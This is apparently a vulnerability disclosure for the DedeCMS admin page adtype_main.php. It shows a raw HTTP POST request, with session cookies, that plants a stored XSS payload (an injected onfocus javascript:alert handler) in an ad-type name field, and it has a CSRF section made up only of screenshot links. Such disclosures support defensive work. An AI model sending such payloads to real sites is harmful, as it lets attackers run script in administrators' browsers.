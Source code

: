 

## 1. adtype_main.php XSS exploit

```
POST /dede/adtype_main.php HTTP/1.1
Host: 127.0.0.1:9600
Content-Length: 107
Cache-Control: max-age=0
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:9600
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:9600/dede/adtype_main.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=ju8br1crnd6r1t5n15mareo4co; _csrf_name_f85ab2bd=68c8acd29961e1819fd253926afea12f; _csrf_name_f85ab2bd1BH21ANI1AGD297L1FF21LN02BGE1DNG=c8b36315a6b54bc1; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=546fad3334d3b477; DedeLoginTime=1713149620; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=dd81cc48d7edab74; ENV_GOBACK_URL=%2Fdede%2Fsys_admin_user.php
Connection: close

dopost=save&idend=0&pname_new=test" onfocus="javascript:alert(1)"&check_new=1&imageField=%E7%A1%AE%E5%AE%9A
```



![adtype_main_xss](https://github.com/thedarknessdied/dedecms/tree/main/114-CSRF-XSS.assets/adtype_main_xss.jpg)

## 2. adtype_main.php CSRF exploit

![image-20240415110639336](https://github.com/thedarknessdied/dedecms/tree/main/114-CSRF-XSS.assets/image-20240415110639336.png)

![image-20240415110708632](https://github.com/thedarknessdied/dedecms/tree/main/114-CSRF-XSS.assets/image-20240415110708632.png)

![image-20240415110723253](https://github.com/thedarknessdied/dedecms/tree/main/114-CSRF-XSS.assets/image-20240415110723253.png)



